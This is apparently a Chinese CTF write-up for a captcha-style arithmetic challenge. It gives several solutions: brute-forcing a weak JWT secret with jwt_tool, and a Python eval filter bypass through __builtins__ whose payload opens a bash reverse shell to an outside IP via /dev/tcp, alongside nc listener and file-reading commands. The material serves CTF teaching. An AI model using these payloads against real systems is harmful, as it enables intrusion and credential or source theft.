 # I am not a robot!

- 出题人: pyy

- 验题人: pyy

## 题目描述

为了证明自己的身份, 冲吧少年!

注: 这道题的flag格式可能为了好看(?)所以做了一些小小的改动, 不过不用担心, 你一眼就能认出来的

- tips: 可以思考一下`服务器是怎么实现这些功能的`? 如果让你写一个类似的程序 (不包括编写网站的知识, 就单纯把它看做是一个`给定输入输出格式的函数`, 要求实现这样的功能) 的话, 你会用什么方法实现?

- tips2: 本题的提示非常的良心, 一个提示, 四种思路, 36分你买不了吃亏, 买不了上当, 真正的物超所值! 赶紧快来抢购吧!

- tips3: 这题是用python写的, python是一门著名的`解释型语言`。

- tips4: 在这道题的世界里, 出题人毫无安全意识, 非常喜欢使用弱密码。

上轮提示:

- 服务器怎么知道你是谁?
- 服务器怎么知道你答出了几道题?
- 服务器怎么知道你正在答的是哪道题? 而它又怎么知道这题的答案?
- 服务器怎么判断答案的正确性?(譬如: 怎么处理除法的分数?)

- 注: 本题共有四种解题思路, 上面的问题想通一两点或许对解题也有很大的帮助

以及36分提示:

- cookie好像有很多种?
- 有没有可能, 它的过滤不是很全?
- ocr做不到的事情, 如果自己写一份字符匹配呢?(只有10个数字和符号的匹配)
- 其实500道的话......2个小时应该也可以算完?

## 出题思路

曾经有一道验证码题, 那个图是看一眼就很花, 然后就借鉴了一下验证码的思路出了这题。(但增加了各种奇怪的解法, 因为出题的时候正好想到了.jpg)

原本这道题是有`% | & ^`运算符的, 这样的话按照逻辑就会过滤掉这四个运算符, 至少shell弹不出来了, 现在还是能弹的。

与钓鱼题联动环节: 在答出0题时输入你的账密, 此时服务器会登录你的账户然后交-100的flag。

## 解法

### 预期解法1(jwt)

![image-20220506173829929](readme.assets/image-20220506173829929.png)

本题用这个样的jwt来记录做出的题以及当前的题目地址, 进jwt.io翻译一下:

![image-20220506174005465](readme.assets/image-20220506174005465.png)

当做出一道题之后n会变成1。

那么目前要做的就是改n了, 尝试着改改看:

![image-20220506174155928](readme.assets/image-20220506174155928.png)

然后被发现了。这个就是jwt第三部分的作用。

尝试伪造jwt需要破解它的密码, 既然是弱密码那就走一个爆破。

`.\jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po -C -d ..\..\docs\dicts\fuzzDicts\passwordDict\top19576.txt`

![image-20220506180255729](readme.assets/image-20220506180255729.png)

然后拿admin去造一个jwt就好了:

![image-20220506180336720](readme.assets/image-20220506180336720.png)

### 预期解法2

应当使用分数回答除法题, 那么背后最省力的做法就是放个eval(我偷了懒, 你们也获得了一种新的解法, 双赢~)

随便打一个import进去, 发现有提示过滤了什么:

![image-20220506180748743](readme.assets/image-20220506180748743.png)

我们偷看一眼源码, 发现过滤了['eval','exec','import','system','getattr','open','kill','+','*'], 但没过滤`__builtins__`和`__dict__`, 那就好办了。

payload: `__builtins__["__imp""ort__"]("os").__dict__['po''pen']('bash -c "bash -i >& /dev/tcp/45.11.2.122/27420 0>&1"')`(不知道为啥本地测试的时候builtins后面要加dict, fastapi里跑起来的时候又不用了(也是本地)?)

此时开个内网穿透, 用linux中的nc执行`nc -lvp 42648`, 完成反弹shell。

![image-20220506191649364](readme.assets/image-20220506191649364.png)

`cat app.py`获取源码

![image-20220506191738798](readme.assets/image-20220506191738798.png)

其实上面的命令也可以直接`cat app.py`(ls啥的过程省略), 然后报答案错的那个页面会有回显的(不过需要f12看包的记录)。

### 预期解法3

做一份图像匹配然后自动交题, 主要是用正则获取图片链接下载, 然后本地计算后上交。

(仅一种思路, 之前做过但那次做的很麻烦且有很多bug, 所以摸鱼摸鱼)

### 预期解法4

500道题, 很快的啦~(

